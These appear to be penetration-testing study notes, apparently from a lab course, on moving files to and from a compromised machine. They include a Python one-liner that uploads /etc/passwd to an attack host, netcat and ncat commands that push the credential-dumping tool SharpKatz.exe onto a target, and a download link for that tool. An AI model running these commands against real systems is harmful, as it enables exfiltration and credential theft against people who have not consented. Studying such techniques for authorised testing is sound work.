 ## <mark class="hltr-cyan">Uploads</mark>

first we have to start the web server
```
uploadserver
```

Then we use this python one-liner to do the upload using a POST request
```shell-session
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

---
# <mark class="hltr-pink">Miscellaneous File Transfer Methods</mark>

## <mark class="hltr-cyan">Netcat  - Compromised Machine - Listening on Port 8000</mark>

```shell-session
nc -l -p 8000 > SharpKatz.exe
```

## <mark class="hltr-cyan">ncat  - Compromised Machine - Listening on Port 8000</mark>

```shell-session
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

## <mark class="hltr-cyan">Netcat - Attack Host - Sending File to Compromised machine</mark>

```shell-session
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

## <mark class="hltr-cyan">Ncat - Attack Host - Sending File to Compromised machine</mark>

```shell-session
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```


## <mark class="hltr-cyan">Attack Host - Sending File as Input to Netcat</mark>

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.
